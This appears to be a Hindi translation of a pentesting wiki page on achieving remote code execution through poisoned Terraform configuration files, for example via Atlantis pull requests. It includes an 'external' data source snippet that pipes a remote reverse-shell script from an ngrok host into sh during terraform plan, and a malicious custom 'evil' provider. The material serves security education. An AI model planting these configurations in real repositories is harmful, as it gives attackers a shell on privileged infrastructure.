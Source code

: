 ![](<../.gitbook/assets/image (215).png>)

### Terraform Lab

बस अपने कंप्यूटर में terraform स्थापित करें।

यहाँ आपके पास एक [guide](https://learn.hashicorp.com/tutorials/terraform/install-cli) है और यहाँ आपके पास terraform डाउनलोड करने का [सबसे अच्छा तरीका](https://www.terraform.io/downloads) है।

### RCE in Terraform

Terraform में **कोई प्लेटफ़ॉर्म नहीं है जो एक वेब पृष्ठ या नेटवर्क सेवा को उजागर करता है** जिसे हम सूचीबद्ध कर सकते हैं, इसलिए, terraform को समझौता करने का एकमात्र तरीका है **terraform कॉन्फ़िगरेशन फ़ाइलों को जोड़ने/संशोधित करने में सक्षम होना**।

हालांकि, terraform एक **बहुत संवेदनशील घटक** है जिसे समझौता करना है क्योंकि इसके पास विभिन्न स्थानों तक **विशेषाधिकार प्राप्त पहुंच** होगी ताकि यह सही तरीके से काम कर सके।

एक हमलावर के लिए उस सिस्टम को समझौता करने का मुख्य तरीका जहां terraform चल रहा है, है **terraform कॉन्फ़िगरेशन को स्टोर करने वाले रिपॉजिटरी को समझौता करना**, क्योंकि किसी न किसी समय उन्हें **व्याख्यायित** किया जाएगा।

वास्तव में, वहाँ ऐसे समाधान हैं जो **PR बनने के बाद terraform plan/apply को स्वचालित रूप से निष्पादित करते हैं**, जैसे कि **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

यदि आप terraform फ़ाइल को समझौता करने में सक्षम हैं, तो जब कोई `terraform plan` या `terraform apply` निष्पादित करता है, तो RCE करने के लिए आपके पास विभिन्न तरीके हैं।

#### Terraform plan

Terraform plan terraform में **सबसे अधिक उपयोग किया जाने वाला कमांड** है और डेवलपर्स/समाधान जो terraform का उपयोग करते हैं, इसे हर समय कॉल करते हैं, इसलिए **RCE प्राप्त करने का सबसे आसान तरीका** यह सुनिश्चित करना है कि आप एक terraform कॉन्फ़िगरेशन फ़ाइल को विषाक्त करें जो `terraform plan` में मनमाने आदेशों को निष्पादित करेगी।

**Using an external provider**

Terraform [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) प्रदान करता है जो Terraform और बाहरी कार्यक्रमों के बीच इंटरफेस करने का एक तरीका प्रदान करता है। आप `plan` के दौरान मनमानी कोड चलाने के लिए `external` डेटा स्रोत का उपयोग कर सकते हैं।

एक terraform कॉन्फ़िगरेशन फ़ाइल में निम्नलिखित की तरह कुछ इंजेक्ट करने से `terraform plan` निष्पादित करते समय एक rev shell निष्पादित होगा:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
**कस्टम प्रदाता का उपयोग करना**

एक हमलावर [कस्टम प्रदाता](https://learn.hashicorp.com/tutorials/terraform/provider-setup) को [Terraform Registry](https://registry.terraform.io/) पर भेज सकता है और फिर इसे फीचर ब्रांच में Terraform कोड में जोड़ सकता है ([यहां से उदाहरण](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```